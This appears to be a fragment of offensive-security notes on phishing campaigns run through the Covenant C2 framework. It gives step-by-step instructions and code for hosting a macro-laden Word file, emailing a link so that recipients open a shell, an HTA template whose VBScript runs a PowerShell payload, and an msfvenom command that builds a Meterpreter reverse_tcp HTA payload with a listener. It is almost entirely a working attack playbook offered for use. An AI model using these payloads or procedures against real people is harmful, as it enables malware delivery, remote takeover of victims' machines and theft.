
in Kali:
```
smbserver.py Share . -smb2support
```

Workstation-01:
```
just drag the file to the share folder
```

> When the word file is open - enable content
it will generate a *GruntHTTP*, that means a session in our Convenant


Host the malicious file:
```
Convenant > Listeners > Hosted Files > Create > Select the file > Create
localhost/file.doc : if its openning to save the file, then is correct
```

Going on with the phishing:
```
add a link in the email redirecting to the Kali IP/file.doc > send it
everyone that opens that, will generate a shell in our Convenant
```

# Phishing with HTA / HTML

```bash
mkdir file.hta
<script language="VBScript">
Function DoStuff()
  Dim wsh
    Set wsh = CreateObject("Wscript.shell")
    wsh.run "<powershell command here>"
    Set wsh = Nothing
End Function

DoStuff
self.close
</script>
```

```
copy the payload to the "powershell command here" area.
host the file in Convenant
  Convenant > Listeners > Hosted Files > Create > Select the file > Create
  localhost/file.hta : if its openning to save the file, then is correct
```

# Phishing with Metasploit
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<kali ip> -f hta-psh -o file.hta
use multi/handler > set options

python3 -m http.server 80
```

